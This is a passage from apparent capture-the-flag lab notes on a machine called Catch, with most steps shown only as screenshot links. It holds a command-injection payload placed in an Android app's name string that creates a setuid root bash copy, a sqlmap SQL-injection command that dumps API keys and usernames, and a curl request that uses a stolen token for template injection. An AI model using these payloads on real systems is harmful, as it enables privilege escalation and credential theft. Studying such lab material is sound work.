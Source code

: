 ![[Pasted image 20220814140339.png]]

2. xs

`decomp/res/values/strings.xml`

Before
![[Pasted image 20220814140922.png]]

After
` <string name="app_name">Catch$(cp /bin/bash /tmp/oste; chmod 4777 /tmp/oste)</string>`
![[Pasted image 20220814141050.png]]

3. Rebuild

`java -jar apktool.jar b decompiled -o catch.apk`

![[Pasted image 20220814141535.png]]

4. Transfer the app to sas

![[Pasted image 20220814143351.png]]

5. Get root

![[Pasted image 20220814143501.png]]

# Beyon Root

Twig SSTI

```bash
sqlmap -u "http://10.10.11.150:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --dbms=mysql -D cachet -T users -C api_key,username --dump --batch
```

![[Pasted image 20220814150842.png]]

![[Pasted image 20220814151434.png]]

![[Pasted image 20220814151528.png]]

![[Pasted image 20220814151610.png]]

```bash
curl "http://10.10.11.150:8000/api/v1/incidents" -H "X-Cachet-Token: 7GVCqTY5abrox48Nct8j" -d "visible=0&status=1&name=hackerman&template=oste"
```

where:

![[Pasted image 20220814152222.png]]

Shell and stabilise:
